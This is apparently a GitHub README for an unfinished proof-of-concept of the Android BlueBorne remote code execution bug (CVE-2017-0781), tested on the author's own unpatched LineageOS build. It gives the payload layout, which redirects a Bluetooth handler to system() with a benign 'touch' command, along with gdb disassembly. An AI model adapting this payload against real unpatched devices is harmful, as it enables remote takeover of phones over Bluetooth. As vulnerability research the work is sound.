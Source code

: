 # android712-blueborne (Work in progress - dirty code)

For testing purposes removed the CVE-2017-0781 pathces and compiled 7.1.2 (LineageOS CM 14.1) on my Samsung S3 Neo+ GT-9301I

Android Blueborne RCE CVE-2017-0781

Tricky to pull off.... not reliable. Since you have to know REMOTE_NAME address, as well as defeat ALSR.

Control r4 register which is REMOTE_NAME

Payload is:
```
SHELL_SCRIPT = b'touch /tmp/test'

Payload is: '"\x17AAAAAAsysm";\n<bash_commands>\n#'
'sysm' is the address of system() from libc. The *whole* payload is a shell script.
0x1700 == (0x1722 & 0xff00) is the "event" of a "HORRIBLE_HACK" message.
payload = struct.pack('<III', 0x41411722, 0x41414141, system_addr) + b'";\n' + SHELL_SCRIPT + b'\n#'
```

After dozen of executions got this condition in

bt_workqueue

```
(gdb) x/30i 0xacda11c4
=> 0xacda11c4:	ldrh	r1, [r4, #0]
   0xacda11c6:	bic.w	r0, r1, #255	; 0xff
   0xacda11ca:	cmp.w	r0, #5632	; 0x1600
   0xacda11ce:	bge.n	0xacda11ec
   0xacda11d0:	cmp.w	r0, #4096	; 0x1000
   0xacda11d4:	beq.n	0xacda1206
   0xacda11d6:	cmp.w	r0, #4352	; 0x1100
   0xacda11da:	beq.n	0xacda1230
   0xacda11dc:	cmp.w	r0, #4608	; 0x1200
   0xacda11e0:	bne.n	0xacda1250
   0xacda11e2:	mov	r0, r4
   0xacda11e4:	ldmia.w	sp!, {r4, lr}
   0xacda11e8:	b.w	0xacd738a4
   0xacda11ec:	beq.n	0xacda123a
   0xacda11ee:	cmp.w	r0, #6400	; 0x1900
   0xacda11f2:	beq.n	0xacda1246
   0xacda11f4:	cmp.w	r0, #5888	; 0x1700
   0xacda11f8:	bne.n	0xacda1250
   0xacda11fa:	ldr	r1, [r4, #8]
   0xacda11fc:	mov	r0, r4
   0xacda11fe:	blx	r1
   0xacda1200:	ldr	r0, [pc, #92]	; (0xacda1260)
   0xacda1202:	add	r0, pc
```

As we can see our system call should be executed on  0xacda11fe

